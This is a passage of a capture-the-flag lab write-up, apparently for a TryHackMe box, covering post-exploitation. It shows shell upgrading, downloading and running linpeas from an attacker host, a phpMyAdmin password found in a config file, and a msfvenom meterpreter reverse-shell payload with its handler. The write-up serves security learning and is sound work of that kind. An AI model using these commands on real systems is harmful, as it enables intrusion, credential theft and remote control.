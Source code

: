 ![screenshot](/assets/img/thm/internal/4.png)

Enumeration:

user found: `aubreanna`

no perms to access aubreanna’s home folder

```bash
$ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l
```

better shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

finding writable location: `/var/tmp`

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

uploading and running Linpeas.sh

```bash
sudo python3 -m http.server 80
wget 10.17.54.2/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

interesting finds:

```sh
╔══════════╣ Searching passwords in config PHP files
$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

We can successfully login into phpMyAdmin using the credentials.

trying same credentials for aubreanna:doesn’t work.

![screenshot](/assets/img/thm/internal/5.png)

switching to meterpreter shell:

msfvenom:

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.17.54.2 LPORT=4242 -f elf -o rev
console, handler

msfconsole

```bash
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.17.54.2
set LPORT 4242
run
```
